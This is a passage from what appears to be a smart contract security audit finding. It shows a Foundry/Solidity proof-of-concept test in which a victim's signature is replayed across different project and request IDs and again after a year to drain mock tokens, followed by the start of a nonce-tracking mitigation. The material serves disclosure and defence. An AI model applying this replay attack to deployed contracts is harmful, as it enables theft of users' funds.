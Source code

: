 ```solidity
        );
        
        // Generate a new signature for the second project ID
        bytes32 secondDigest = blueprint.getRequestDeploymentDigest(secondProjectId, updatedConfig, "app.crestal.network");
        (uint8 v2, bytes32 r2, bytes32 s2) = vm.sign(victimPrivateKey, secondDigest);
        bytes memory secondSignature = abi.encodePacked(r2, s2, v2);
        
        // ATTACK: Replay the signature with a different request ID and project ID
        vm.prank(victimAddress);
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(secondMockToken), 
            secondProjectId, 
            secondRequestId,
            updatedConfig,
            secondSignature
        );
        
        // Check another token transfer occurred for a different request
        uint256 victimSecondTokenBalanceAfterThirdReplay = secondMockToken.balanceOf(victimAddress);
        assertEq(victimSecondTokenBalanceAfterThirdReplay, updateCost, "Victim lost tokens for a different request ID");
        
        // Demonstrate that signatures remain valid indefinitely
        // Warp forward 1 year
        vm.warp(block.timestamp + 365 days);
        
        // Try to use the original signature again - it should still work
        vm.prank(victimAddress);
        blueprint.updateWorkerDeploymentConfigWithSig(
            address(mockToken), 
            testProjectId, 
            requestId,
            updatedConfig,
            signature
        );
        
        // Check that the signature still worked after a year
        uint256 victimBalanceAfterYear = mockToken.balanceOf(victimAddress);
        assertEq(victimBalanceAfterYear, 0, "Signature should still be valid after a year");
    }
```

![Image](https://sherlock-files.ams3.digitaloceanspaces.com/gh-images/72463505-60b5-4078-b593-487a13da3c90)

### Mitigation

To fix this vulnerability, implement the following changes:

1. **Add Nonce Tracking**:
